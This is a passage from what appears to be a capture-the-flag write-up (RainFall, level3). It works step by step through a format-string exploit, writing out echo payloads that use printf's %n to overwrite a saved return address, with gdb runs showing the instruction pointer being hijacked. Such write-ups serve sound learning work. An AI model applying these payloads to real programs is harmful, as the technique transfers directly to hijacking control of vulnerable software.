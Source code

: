 ```bash
1 pattern found.
```

Now that we have the locations of the saved EIP pointers, let's try to rewrite one using the `%n` feature of printf (which saves the number of printed characters to the passed argument)

```bash
level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf%4$n' > /tmp/input

level3@RainFall:~$ gdb ./level3
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) run < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()
```

Bingo! The address got overwritten, now let's write the address that we want to jump to, `0x080484e4`

`0x080484e4` == `134513892`, -4 for first 4 bytes

Although it may work, we don't have to write this much bytes to overwrite EIP with the value we want

We can instead use multiple `%n` values with the address of each byte in the 4byte address integer

```bash
level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf''\x5d\xf4\xff\xbf''\x5e\xf4\xff\xbf''\x5f\xf4\xff\xbf''%10x%4$n' > /tmp/input

level3@RainFall:~$ gdb ./level3
...
(gdb) run < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x0000001a in ?? ()

level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf''\x5d\xf4\xff\xbf''\x5e\xf4\xff\xbf''\x5f\xf4\xff\xbf''%10x%4$n''%10x%5$n' > /tmp/input

level3@RainFall:~$ gdb ./level3
...
(gdb) run < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x0000241a in ?? ()
```
